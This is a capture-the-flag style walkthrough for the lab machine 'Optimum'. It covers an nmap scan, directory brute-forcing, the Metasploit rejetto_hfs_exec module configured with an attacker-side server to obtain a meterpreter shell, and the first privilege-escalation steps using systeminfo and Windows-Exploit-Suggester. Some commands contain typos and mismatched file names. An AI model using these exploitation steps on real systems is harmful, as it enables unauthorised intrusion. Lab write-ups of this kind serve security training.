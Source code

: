 # Optimum

10.10.10.8

## Initial scan

```sh
nmap -A -T5 -p- 10.10.10.8
```

Results

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-10 06:05 EDT
Nmap scan report for 10.10.10.8
Host is up (0.20s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 198.73 seconds
```

## Gobuster

Since there's only 1 port, let's try gobuster on this

```sh
gobuster dir -u 10.10.10.8 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

This takes too long. Going to let it run in the background while looking for other exploits

## Metasploit

Looking online, there's an exploit for this specific version of http file server version 2.3.

```sh
msfconsole
use exploit/windows/http/rejetto_hfs_exec
msf5 exploit(windows/http/rejetto_hfs_exec) > set rhosts 10.10.10.8
# rhosts => 10.10.10.8
msf5 exploit(windows/http/rejetto_hfs_exec) > set SRVHOST 10.10.14.14
# SRVHOST => 10.10.14.14
msf5 exploit(windows/http/rejetto_hfs_exec) > set SRVPORT 8080
# SRVPORT => 8080
msf5 exploit(windows/http/rejetto_hfs_exec) > run
```

and a meterpreter shell is spawned. This gives us our first flag for the user `OPTIMUM\kostas`

## Privilege escalation

Let's look for some windows security vulnerabilities within this windows version.

### Getting systeminfo

```sh
execute -f "cmd.exe /c systeminfo > systeminfo.txt"
download systeminfo.txt
```

### Installing windows-exploit-suggester

Install windows-exploit-suggester from here: [exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

unzip the file and add it to `/usr/local/bin`

```sh
unzip Windows-exploit-suggester
cd Windows-expolit-suggester
suco cp Windows-exploit-suggester.py /usr/local/bin
```

### Using windows-expolit-suggester

Make sure the sysinfo.txt file and the database file is placed in the same directory, then

```sh
windows-exploit-suggest.py --update
windows-exploit-suggester.py --database 2020-04-10-mssb.xls --systeminfo systeminfo.txt
```